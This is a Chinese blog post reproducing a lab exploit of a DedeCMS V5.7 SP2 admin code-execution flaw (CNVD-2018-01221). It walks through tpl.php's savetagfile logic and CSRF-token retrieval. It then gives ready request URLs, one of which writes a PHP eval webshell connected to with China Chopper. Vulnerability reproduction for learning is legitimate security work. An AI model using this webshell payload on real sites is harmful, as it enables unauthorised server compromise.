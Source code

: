 ```yaml
---
title: dedecms V5.7-UTF-8-SP2 命令执行漏洞复现
date: 2019-07-23 19:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - dedecms
---
```

# 一、漏洞概述
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724101304.png)

***
# 二、漏洞分析
环境搭建这里不再赘述，搭建好后访问网站主页
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724102343.png)

dedecms默认的后台是/dede,没有修改直接访问登陆
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724102453.png)

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724102828.png)

**代码分析**
```
(1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
(2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
(3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
   [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
   所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
(4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
(5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
(6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
   导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了
```
根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

***
# 三 、漏洞复现
获取token，访问 域名 + /dede/tpl.php?action=upload
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724104103.png)
然后查看网页源代码，找到token
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724104145.png)
构造payload如下
http://192.168.159.130/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token)
访问了成功写入
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724104653.png)
访问写入的文件，域名+include/taglib/（你上传的文件名）.lib.php
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724104810.png)
也可以构造一句话木马payload，http://192.168.159.130/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929
直接用菜刀连接
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724105245.png)

***
# 四、总结
虽然这个漏洞很鸡肋，需要拿到管理员账号密码才行，但还是有必要复现了解，反复练习才能有进步。

***
# 参考文章
[国家信息安全漏洞共享平台](https://www.cnvd.org.cn/flaw/show/CNVD-2018-01221)
[dedeCMS后台代码执行漏洞-CNVD-2018-01221](https://blog.csdn.net/qq_41954384/article/details/93057317)